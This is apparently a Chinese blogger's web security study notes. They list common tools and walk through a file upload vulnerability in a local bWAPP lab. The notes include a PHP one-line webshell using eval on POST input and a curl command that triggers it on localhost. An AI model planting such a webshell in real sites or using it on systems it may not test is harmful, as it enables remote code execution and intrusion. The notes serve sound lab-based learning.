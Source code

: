 ```yaml
---
layout: post
cid: 145
title: web安全学习笔记
slug: 145
date: 2022/04/13 13:50:00
updated: 2022/10/08 17:56:09
status: publish
author: 果粒橙
categories: 
  - 学习
tags: 
  - web安全
---
```



常见web工具：

burpsuite：通过代理渗透，可重放HTTP请求，来分析HTTP响应

curl：通过url方式传输数据，可用于抓取页面（执行请求），监控网络等等

postmain

hackbar quantum

wappalyzer


文件上传漏洞：没有足够的安全约束的情况下，允许上传恶意文件，例如恶意脚本，webshell等等

文件上传漏洞关键点在于绕过

由于法律限制的原因，禁止对其他网站非法攻击，因此需要在本地或者在自己的服务器上建立靶场渗透环境，这边使用的是bwapp（全称为buggy web Application）

这边使用的是docker运行bwapp，也可以下载bwapp，来自己搭建（https://sourceforge.net/projects/bwapp/files/）


docker pull raesene/bwapp

docker run -d -p 0.0.0.0:80:80 raesene/bwapp


访问127.0.0.1/install.php


点击here来初始化，或者直接访问127.0.0.1/install.php?install=yes

创建账号信息，点击new user，或者直接访问127.0.0.1/user_new.php

点击login，或者直接访问127.0.0.1/login.php，根据刚才的账号信息进行登录

简单接触文件上传漏洞

chose your bug选择unrestricted File Upload（未经严格审记的文件上传），安全级别选择low（set your security level）

上传一句话木马，创建shell.php文件，添加<?php @eval($_POST["test"])?>

通过curl触发，执行curl -d 'test=echo getcwd();'  http://127.0.0.1/images/shell.php

可以看到成功触发shell.php，并且服务器返回了当前执行的目录
